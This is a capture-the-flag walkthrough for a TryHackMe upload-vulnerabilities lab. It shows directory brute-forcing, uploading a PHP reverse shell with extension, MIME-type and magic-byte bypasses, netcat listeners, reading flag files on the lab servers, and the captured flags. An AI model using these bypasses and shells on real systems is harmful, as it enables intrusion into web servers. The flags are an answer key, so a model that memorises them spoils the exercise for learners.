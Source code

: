 # THM - Upload Vulnerabilities

<br>

```shell
echo "10.10.198.71    overwrite.uploadvulns.thm shell.uploadvulns.thm java.uploadvulns.thm annex.uploadvulns.thm magic.uploadvulns.thm jewel.uploadvulns.thm demo.uploadvulns.thm" | sudo tee -a /etc/hosts
```

```shell
nano /etc/hosts
```

```text
C:\Windows\System32\drivers\etc
```

<br>

## Task 4

### Task 4.1

> mountains.jpg

### Task 4.2

> THM{OTBiODQ3YmNjYWZhM2UyMmYzZDNiZjI5}

<br>

## Task 5

🧰 https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

🧰 https://pentestmonkey.net/tools/web-shells/php-reverse-shell

### Task 5.1

```shell
gobuster dir -u http://shell.uploadvulns.thm/ -w ../../Tools/KaliWordlists/dirbuster/directory-list-2.3-medium.txt | tee output01_gobuster.txt
```

> /resources

### Task 5.2

```shell
nc -lvnp 9876
```

http://shell.uploadvulns.thm/resources/php-reverse-shell.php

```shell
cd /var/www
ls
cat flag.txt
```
> THM{YWFhY2U3ZGI4N2QxNmQzZjk0YjgzZDZk}

<br>

## Task 6

### Task 6.1

> php

### Task 6.2

> whitelist

### Task 6.3

🧰 https://stackoverflow.com/questions/7076042/what-mime-type-should-i-use-for-csv

> text/csv

<br>

## Task 7

### Task 7.1

```shell
gobuster dir -u http://java.uploadvulns.thm/ -w ../../Tools/KaliWordlists/dirbuster/directory-list-2.3-medium.txt | tee output02_gobuster.txt
```

http://java.uploadvulns.thm/

```text
# Burp Suite:
filename="php-reverse-shell.png"
Content-Type: image/png

# modify
filename="php-reverse-shell.php"
Content-Type: text/x-php
```

```shell
nc -lvnp 9876
```

http://java.uploadvulns.thm/images/php-reverse-shell.gif

```shell
cd /var/www
ls
cat flag.txt
```

> THM{NDllZDQxNjJjOTE0YWNhZGY3YjljNmE2}

<br>

## Task 8

http://annex.uploadvulns.thm/

### Task 8.1

```shell
gobuster dir -u http://annex.uploadvulns.thm/ -w ../../Tools/KaliWordlists/dirbuster/directory-list-2.3-medium.txt | tee output03_gobuster.txt
```

http://annex.uploadvulns.thm/privacy/

```shell
nc -lvnp 9876
```

http://annex.uploadvulns.thm/privacy/2022-08-10-16-50-35-php-reverse-shell.jpg.php5

```shell
cd /var/www
ls
cat flag.txt
```

> THM{MGEyYzJiYmI3ODIyM2FlNTNkNjZjYjFl}

<br>

## Task 9

http://magic.uploadvulns.thm/

### Task 9.1

```shell
gobuster dir -u http://magic.uploadvulns.thm/ -w ../../Tools/KaliWordlists/dirbuster/directory-list-2.3-medium.txt | tee output04_gobuster.txt
```

http://magic.uploadvulns.thm/graphics

```shell
hexeditor php-reverse-shell2.gif
```

🧰 https://en.wikipedia.org/wiki/List_of_file_signatures

```shell
47 49 46 38
```

```shell
nc -lvnp 9876
```

http://magic.uploadvulns.thm/graphics/php-reverse-shell2.php

```shell
cd /var/www
ls
cat flag.txt
```

> THM{MWY5ZGU4NzE0ZDlhNjE1NGM4ZThjZDJh}

<br>

## Task 11

http://jewel.uploadvulns.thm/

### Task 11.1

```shell
gobuster dir -u http://jewel.uploadvulns.thm/ -w ../../Tools/KaliWordlists/dirbuster/directory-list-2.3-medium.txt | tee output05_gobuster.txt
```

```shell
gobuster dir -u http://jewel.uploadvulns.thm/content -w UploadVulnsWordlist.txt -t 250 -x jpg | tee output06_gobuster.txt
```

```shell
gobuster dir -u http://jewel.uploadvulns.thm/content -w UploadVulnsWordlist.txt -t 250 -x jpg | tee output07_gobuster.txt
```

```shell
nc -lvnp 9876
```

http://jewel.uploadvulns.thm/admin

Input: ../content/RCR.jpg

```shell
pwd
cd ..
ls
cat flag.txt
```

> THM{NzRlYTUwNTIzODMwMWZhMzBiY2JlZWU2}



